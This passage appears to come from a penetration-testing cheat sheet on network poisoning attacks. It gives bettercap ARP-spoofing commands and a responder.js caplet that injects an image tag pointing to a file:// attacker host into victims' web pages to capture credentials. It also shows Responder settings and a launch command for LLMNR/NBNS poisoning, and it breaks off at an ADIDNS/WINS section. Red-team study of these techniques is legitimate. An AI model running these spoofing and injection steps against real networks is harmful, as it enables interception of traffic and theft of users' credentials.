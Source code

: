 						```arp.spoof on```<br>
						<br>
						```sleep 1```
						* ```set arp.spoof.targets 10.55.0.2```<br>
						```set arp.spoof.internal true```<br>
						```arp.ban on```
					* `target` - the system which´s ARP cache we want to poison. So that if tries to reach a resource it will be directed to us.
					* The `internal` switch will tell bettercap to do ARP poisoning on its own subnet, otherwise the attack won´t work.
					* `arp.ban on` will start the attack, putting IP forwarding for our box to false, so no packets are passing through.
					* In this case, `responder.js` is used for MITM technique. The contents can be as below, editing `<attacker_hostname_or_IP>`:

							function onLoad() {
							  log("Anchor replace loaded." );
							  log("targets: " + env['arp.spoof.targets']);
							}

							function onResponse(req, res) {
							  var body = res.ReadBody();
							  if( body.indexOf('</body>') != -1 ) {
							      res.Body = body.replace(
							          '</body>',
							          '<img src="file://<attacker_hostname_or_IP>/images/file.jpg" /></body>'
							      );
							  }
							}
			* Eavesarp
		1. Launch ARP spoofing tool
			* <details><summary>Bettercap (Click to expand)</summary><p>

					bettercap -iface <eth0> -caplet <capfile.cap>
	* WPAD
		* <details><summary>Recommended: Responder (Click to expand)</summary><p>

				.
	* LLMNR/NBNS Poisoning
		* <details><summary>Recommended: Responder (Click to expand)</summary><p>
			* Upon initiation, Responder automatically begins poisioning unless `-A` (for Analyze) has been set.
			* Requires editing to `Responder.conf` to set the value of SMB and HTTP to `Off`

			    [Responder Core]
			    ; Servers to start
			    ...
			    SMB = Off     # Turn this off
			    HTTP = Off    # Turn this off
	    	* Example
			
					python Responder.py -I <interface>
	* DNS
		* <details><summary>Overview (Click to expand)</summary><p>
			* In some scenarios, adding a wildcard record to the proper ADIDNS zone won't work. This is usually due to the WINS forward lookup being enabled on that zone. WINS forward lookup makes the DNS server send a NBT-NS Query Request to a predefined WINS server when it receives an address record query for which it doesn't know the answer. In short, it serves the same purpose as the wildcard record. This feature needs to be disabled for the wildcard record to be used.
		* Validate the state of WINS
			* <details><summary>Recommended: krbrelayx.py's dnstool.py (Click to expand)</summary><p>

